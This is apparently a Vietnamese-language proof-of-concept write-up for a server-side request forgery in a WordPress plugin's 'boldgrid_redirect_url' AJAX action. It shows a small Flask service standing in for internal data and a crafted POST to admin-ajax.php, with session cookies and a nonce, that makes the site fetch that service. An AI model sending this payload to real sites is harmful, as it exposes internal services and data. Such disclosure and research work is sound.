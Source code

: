 ```py
from flask import Flask, send_from_directory
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/metadata')
def metadata():
    return send_from_directory(BASE_DIR, 'metadata.json', as_attachment=True)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

```json {title="metadata.json"}
{
  "content": "Internal service data"
}
```

### Proof of Concept (PoC)

Gửi POST request với URL trỏ đến local service:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=con%7C1761816248%7CDDS70mMGANEkpR68MrIikvC8WRqNkBMl8KlbXrbSh8Q%7C07a62e731a6142aa7b15555fdd5e1cbdd114cffb4a041ba0ecd9394c8319bb3f; wp-settings-time-2=1761643645; _lscache_vary=0f9122a3a07756eeee3b4199f2c151b1; wp-settings-4=libraryContent%3Dbrowse%26uploader%3D1%26mfold%3Do; wp-settings-time-4=1761637043; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=con%7C1761816248%7CDDS70mMGANEkpR68MrIikvC8WRqNkBMl8KlbXrbSh8Q%7C450b8e4bb8ebb335d435b94645ae098cee383a09a6e129efbdec8a2348deeda0
...

action=boldgrid_redirect_url&urls[0]=http://localhost:8001/metadata&boldgrid_gridblock_image_ajax_nonce=482dbb1ed2
```

**Result**:

![Result](result.png "Nội dung đọc được từ local service")
